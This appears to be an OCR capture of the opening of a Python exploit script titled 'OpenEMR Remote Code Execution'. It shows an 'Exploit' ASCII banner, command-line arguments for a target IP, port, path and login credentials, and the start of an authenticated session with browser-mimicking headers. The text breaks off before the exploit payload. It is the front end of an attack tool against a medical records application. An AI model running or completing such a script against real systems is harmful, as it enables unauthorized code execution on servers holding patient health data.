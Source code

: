                         _____            _       _ _
                        | ____|_  ___ __ | | ___ (_) |_
                        |  _| \ \/ / '_ \| |/ _ \| | __|
                        | |___ >  <| |_) | | (_) | | |_
                        |_____/_/_\ .__/|_|___/|_|__|
                                   |_|

    """
    print(banner)


    '''
    Import required modules
    '''
    import argparse
    import requests


    '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='OpenEMR Remote Code Execution')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--PATH', type=str)
    my_parser.add_argument('-u', '--USERNAME', type=str)
    my_parser.add_argument('-p', '--PASSWORD', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    openemr_path = args.PATH
    username = args.USERNAME
    password = args.PASSWORD

    '''
    Authentication:
    '''
    # Preparation:
    session = requests.Session()
    auth_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/main/main_screen.php?auth=login&site=default'
    auth_chek_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/login/login.php?site=default'
    response = session.get(auth_chek_url)

    # Header (auth):
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Referer': auth_chek_url,
        'Upgrade-Insecure-Requests': '1',
    }
